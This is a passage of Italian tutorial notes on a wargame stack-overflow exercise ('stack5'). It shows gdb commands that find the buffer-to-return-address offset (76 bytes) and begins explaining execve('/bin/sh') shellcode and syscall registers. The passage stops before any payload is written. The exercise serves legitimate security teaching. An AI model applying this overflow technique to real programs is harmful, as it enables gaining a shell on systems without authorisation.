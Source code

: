 $$
\text{(EBP+4) - }\&\text{buffer}
$$

Per fare questo calcolo usiamo il debugger `gdb` e seguiamo i prossimi step:
```bash
gdb ./stack5
start # creerà un breakpoint 1 temporale

p $ebp+4 # per ottenere l'indirizzo di ritorno di main()
# $1 = (void *) 0xbffffcac

# disassembliamo il main per individuare la chiamata a gets()
disassemble main 
# ...
# 0x080483cd <main+9>:	lea    0x10(%esp),%eax
# 0x080483d1 <main+13>:	mov    %eax,(%esp)
# 0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
# ...

# - notiamo che l'indirizzo di buffer viene caricato in %eax e inseriamo un breakpoint 
# all'indirizzo in cui viene chiamata gets(), successivamente dumpiamo i registri per
# vedere il valore di %eax che contiene l'indirizzo del buffer

b * 0x80483d4
c
# arriviamo al breakpoint
info registers 
# eax            0xbffffc60	-1073742752
# ecx            0x971dd9bb	-1759651397

# prendiamo l'indirizzo di %eax e lo sottraiamo a quello di ritorno del main per ottenere 
# il numero di byte necessari. 

0xbffffcac - 0xbffffc60 = 76 
```

A questo punto dobbiamo scrivere lo shellcode, quello che vogliamo eseguire in ambiente linux è:  

```bash
execve("/bin/sh");
exit(0);
```
I parametri di `execve()` sono:  
1. `filename` $\rightarrow$ percorso del programma da eseguire (/bin/sh)
2. `argv[]` $\rightarrow$ array di argomenti del programma (nel nostro caso NULL)
3. `envp[]` $\rightarrow$ array delle variabili di ambiente (NULL)

Nelle chiamate di sistema Linux _i parametri si passano nei registri_:
- `eax` $\rightarrow$ numero identificativo della chiamata di sistema (execve: 11)
- `eNx` $\rightarrow$ argomento $n$-esimo 



